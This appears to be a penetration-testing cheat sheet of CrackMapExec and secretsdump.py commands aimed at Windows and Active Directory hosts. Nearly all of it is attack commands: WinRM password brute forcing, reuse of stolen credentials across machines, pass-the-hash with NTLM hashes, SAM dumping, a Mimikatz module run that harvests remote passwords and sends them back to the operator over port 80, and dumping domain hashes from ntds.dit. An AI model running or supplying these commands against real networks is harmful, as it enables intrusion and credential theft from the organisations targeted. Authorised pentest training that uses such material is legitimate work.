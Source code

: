 ```
root@kali:Crackmapexec winrm -I [ip] -u [username list or single username] -p [password list – or single password]
```

#### Active Directory Brute Force

**Checking if a pair of active directory credentials work on other domain-joined machines**

```
<root@kali:Crackmapexec -u [username] -p [password] [ip1] [ip2] [ip3] [dc-ip]>
```

ips; are the Ips of the domain joined machines.

**Checking the credentials on a WORKGROUP machines and not domain joined.**

The below command is ran from a non-Active directory machine. In most cases it can be a windows server machine

```
root@kali:Crackmapexec -u [username] -p [password] [ip1] [ip2] [ip3]
```

Or with NTLM Hash

```
root@kali:Crackmapexec winrm -i [ip] -u [username list or single username] -H [NTLM HASH]
```

**Harvesting the windows administrator account password with crackmapexec**

```
root@kali:crackmapexec -u [username] -p [password] -d WORKGROUP –-sam [ip of the target machine from which the administrator account hash will be dumped]
```

**Harvesting passwords of other windows machines with crackmapexec + Mimikatz**

```
root@kali:crackmapexec -u administrator -H [Hash] -d WORKGROUP [ip1] [ip2] [ip3] -M mimikatz - server=http --server-port=80
```

In this command, we used the administrator hash to launch an authenticated process on the remote machines to crack the local accounts passwords and send it over port 80 to us. This command will only work if the administrator has logged in to the remote machines before or if the machines are part of an Active Directory structure.

**Dumping Active Directory Users’s hashes with secretsdump.py given we have acquired the plain text password of a valid user**

```
root@kali:Secretsdump.py pentesting.local/user:’password’@[ip]
```

**Given ntds.dit and registery file system \[Active Directory]**

```
<root@kali:python secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL > backup_ad_dump > 
```
